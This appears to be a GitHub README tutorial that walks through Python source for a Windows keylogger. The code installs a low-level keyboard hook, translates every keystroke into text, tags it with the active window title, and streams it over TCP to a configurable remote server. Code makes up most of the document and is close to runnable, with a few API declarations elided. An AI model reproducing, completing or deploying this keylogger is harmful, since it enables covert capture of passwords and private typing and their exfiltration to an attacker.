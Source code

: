 # Keylogger with Python and Win32 API  

A keylogger captures keyboard input by setting up a low-level keyboard hook using the Windows API. This project demonstrates how to implement a keylogger in Python, sending the logged keys to a remote server.  

## References  

- [Hooks - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/winmsg/hooks)  
- [GetWindowTextA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtexta)  
- [GetWindowTextLengthA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtextlengtha)  
- [GetKeyState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeystate)  
- [GetKeyboardState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeyboardstate)  
- [ToAscii - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-toascii)  
- [CallNextHookEx - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-callnexthookex)  
- [SetWindowsHookExA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)  
- [GetMessageA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessagea)  
- [HOOKPROC - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nc-winuser-hookproc)  
- [KBDLLHOOKSTRUCT - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-kbdllhookstruct)  
- [GetForegroundWindow - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getforegroundwindow)  
- [ctypes CFUNCTYPE - Python Documentation](https://docs.python.org/3/library/ctypes.html#ctypes.CFUNCTYPE)  


## Overview of Hooks  

Per microsoft:  

_A point in the system message-handling mechanism where an application can install a subroutine to monitor the message traffic in the system and process certain types of messages before they reach the target window procedure._

This program leverages the `WH_KEYBOARD_LL` hook type to monitor low-level keyboard input events.  


## Building the script

__Imports and Constants__

The script begins by importing the necessary modules and defining constants related to the Windows API.  

```python
import sys
import socket
from ctypes import *
from ctypes import wintypes
```

The constants and types include:  

- **`WH_KEYBOARD_LL`**: Installs a hook procedure to monitor low-level keyboard events.  
- **`WM_KEYDOWN`**: Indicates a key has been pressed.  
- **`HOOKPROC`**: Defines the callback function type used with hooks.  
- **`WM_RETURN`**: Represents the Enter/Return key on the keyboard.  
- **`WM_SHIFT`**: Represents the Shift key, used to modify key inputs such as uppercase letters or symbols.  
- **`lpKeyState`**: The 256-byte array that receives the status data for each virtual key.


```python
user32 = windll.user32
lpKeyState = wintypes.BYTE * 256

IP_ADDR = "127.0.0.1"  # change this line
PORT = 9001            # change this line.

LRESULT = c_long
WH_KEYBOARD_LL = 13
WM_KEYDOWN = 0x0100
WM_RETURN = 0x0D
WM_SHIFT = 0x10

HOOKPROC = CFUNCTYPE(
    LRESULT,
    wintypes.INT,
    wintypes.WPARAM,
    wintypes.LPARAM
)
```

__Windows API Function Definitions__

To interact with the Windows API, the script declares and configures API functions such as `GetWindowTextA`, `CallNextHookEx`, and `GetMessageA`. Each function's argument types and return types are explicitly specified using `ctypes` for type safety and correct behavior.

```ruby
GetWindowTextA = user32.GetWindowTextA
GetWindowTextA.argtypes = (
    wintypes.HANDLE,
    wintypes.LPSTR,
    wintypes.INT
)
GetWindowTextA.restype = wintypes.INT

# [...]
```

Similarly, other functions such as `GetForegroundWindow`, `SetWindowsHookExA`, `GetKeyState`, and `ToAscii` are also defined.  

__Low-Level Hook Structure__

The `KBDLLHOOKSTRUCT` structure stores information about a low-level keyboard input event, such as the virtual key code, scan code, and additional flags. This structure is populated for each intercepted keyboard event.  

```python
class KBDLLHOOKSTRUCT(Structure):
    _fields_ = [
        ("vkCode", wintypes.DWORD),
        ("scanCode", wintypes.DWORD),
        ("flags", wintypes.DWORD),
        ("time", wintypes.DWORD),
        ("dwExtraInfo", wintypes.DWORD)
    ]
```
__Get Foreground Process__

The `get_fgproc` function identifies the title of the currently active window, allowing us to associate logged keystrokes with the application in focus. It uses `GetForegroundWindow` to obtain a handle to the focused window, determines the title length using `GetWindowTextLengthA`, and retrieves the title with `GetWindowTextA`. The resulting string represents the window's title, which can be logged alongside captured keystrokes for context.

```python
def get_fgproc():
    hwnd = user32.GetForegroundWindow()
    length = user32.GetWindowTextLengthA(hwnd)
    buf = create_string_buffer(length + 1)
    user32.GetWindowTextA(hwnd, buf, length + 1)
    return buf.value
```

__Hook Callback Function__

The `hook_func` function is the core of the keylogger, processing each keyboard event. It checks for changes in the active window using `get_fgproc`. When a new window is detected, the function logs its title. The `last` variable tracks the previously active window, ensuring only new titles are sent to the server.

By interacting with the `lParam` parameter, the function identifies the key pressed and passes the event to the next hook in the chain using `CallNextHookEx`.

```python
def hook_func(nCode, wParam, lParam):
    global last
    if last != get_fgproc():
        last = get_fgproc()
        msg = "\n[!] Last foreground process -> {}\n".format(last.decode("latin-1"))
        s.send(msg.encode("latin-1"))
```

__Capturing and Logging Keystrokes__

Within `hook_func`, key presses are captured using the `KBDLLHOOKSTRUCT` structure. The key's virtual code and state are processed to determine the corresponding character using `ToAscii`. This function translates virtual key codes into ASCII characters, respecting the current keyboard layout and state.  


```python
    if wParam == WM_KEYDOWN:                             # Check if the event is a key press
        keyboard = KBDLLHOOKSTRUCT.from_address(lParam)  # Parse key details from lParam
        state = (wintypes.BYTE * 256)()                  # Create a buffer for the keyboard state
        user32.GetKeyboardState(byref(state))            # Retrieve the current keyboard state
        buf = (c_ushort * 1)()                           # Buffer for the resulting character
        n = user32.ToAscii(                              # Convert virtual key to ASCII
            keyboard.vkCode,
            keyboard.scanCode,
            state,
            buf,
            0
        )

        if n > 0:                             # Check if a character was successfully converted
            if keyboard.vkCode == WM_RETURN:  # Handle the Enter key
                s.send(b"\n")
            else:
                msg = "{}".format(string_at(buf).decode("latin-1"))  # Decode the character
                s.send(msg.encode("latin-1"))                        # Send the character to the server

    return user32.CallNextHookEx(  # Pass the event to the next hook
        hook,
        nCode,
        wParam,
        lParam
    )
```


__Main Function__

The main function initializes the keylogger. It establishes a TCP connection with the server, setting up a socket for communication. Using the `SetWindowsHookExA` function, it installs a low-level keyboard hook (`WH_KEYBOARD_LL`) that invokes `hook_func` on each keyboard event. Finally, `GetMessageA` enters a message loop to process events until the program is terminated.

```python
if __name__ == "__main__":
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Create a TCP socket
        s.connect((IP_ADDR, PORT))                             # Connect to the remote server

        last = None                     # Track the last active window
        callback = HOOKPROC(hook_func)  # Define the hook callback

        hook = user32.SetWindowsHookExA(  # Install the keyboard hook
            WH_KEYBOARD_LL,
            callback,
            0,
            0
        )

        user32.GetMessageA(  # Enter the event processing loop
            byref(wintypes.MSG()),
            0,
            0,
            0
        )
    except:
        sys.exit(1)  # Exit on error
```

## Example Output

![demo](https://github.com/user-attachments/assets/bbdd1602-330d-484c-88cf-610a41189ccb)


